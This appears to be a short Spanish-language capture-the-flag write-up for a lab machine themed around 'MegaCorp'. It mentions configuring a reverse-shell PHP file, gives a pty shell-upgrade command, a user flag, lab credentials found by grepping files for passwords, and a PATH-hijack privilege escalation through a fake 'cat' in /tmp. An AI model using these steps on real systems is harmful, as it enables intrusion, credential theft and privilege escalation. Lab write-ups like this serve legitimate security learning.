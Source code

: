 
##### Tenemos que cambiar el la IP y el puerto por donde estaremos escuchando para conseguir la reverseshell.php

comando para generar el pront de la terminal
```css
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


User.txt
```css
f2c74ee8db7983851ab2a96a44eb7981
```

#### Navegando al directorio donde se alija la pagina php podemos encontrar archivos interesantes.
User.
```css
'robert', 'M3g4C0rpUs3r!'
```

### El comando cat lo podemos convinar con grep para buscar archivos que contengan una palabra en espesifico. 

# code
```css
cat * | grep -i passw*
```
# Info
```css
($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
```

# bugtracker --help 

##### La herramienta acepta entradas del usuario como nombre del archivo que se leerá usando el comando cat; sin embargo, no especifica la ruta completa al archivo cat y, por lo tanto, podríamos aprovechar esto.

![[2023-10-09_01-18.png]]
### Navegaremos al directorio /tmp y crearemos un archivo llamado cat con el siguiente contenido: 
```css
	/bin/sh
```

### ahora otorgamos permisos de ejecución  
```css
	chmod +x cat
```
